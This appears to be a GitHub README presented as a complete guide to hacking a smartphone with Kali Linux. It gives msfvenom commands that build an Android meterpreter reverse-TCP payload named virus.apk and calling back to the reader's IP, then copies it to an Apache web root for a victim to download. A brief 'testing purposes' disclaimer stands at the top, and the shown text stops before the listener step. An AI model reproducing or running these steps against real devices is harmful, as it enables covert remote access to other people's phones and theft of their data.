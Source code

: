 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. **There is a file uploaded with all the configuration done. You can download it and just run the msfconsole comands at the end of the guide**

**More info at https://www.kali.org/**

## Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

## Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 



